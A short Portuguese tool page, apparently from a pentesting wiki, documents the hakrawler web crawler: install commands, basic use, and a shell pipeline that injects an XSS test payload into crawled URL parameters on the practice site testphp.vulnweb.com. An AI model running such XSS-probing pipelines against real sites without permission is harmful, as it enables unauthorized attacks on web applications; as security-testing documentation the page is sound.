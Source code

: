 ```yaml
---
id: hakrawler
title: hakrawler
---
```


# Hakrawler

Web crawler escrito em Golang para coletar URLs e arquivos JavaScript.

https://github.com/hakluke/hakrawler

---

## Instalação

```bash
go install github.com/hakluke/hakrawler@latest
mv ~/go/bin/hakrawler /usr/bin
```

ou

```bash
sudo apt install hakrawler # Kali Linux
```

## Uso básico

```bash
echo testphp.vulnweb.com | hakrawler -subs
```

## Procurando XSS

Podemos automatizar a procura de XSS utilizando o `hakrawler` em conjunto com o
`airixss`:

```bash
echo testphp.vulnweb.com | \
    httpx -silent | \
    hakrawler -subs | \
    grep "=" | \
    qsreplace '"><svg onload=confirm(1)>' | \
    airixss -payload "confirm(1)" | \
    egrep -v 'Not'
```
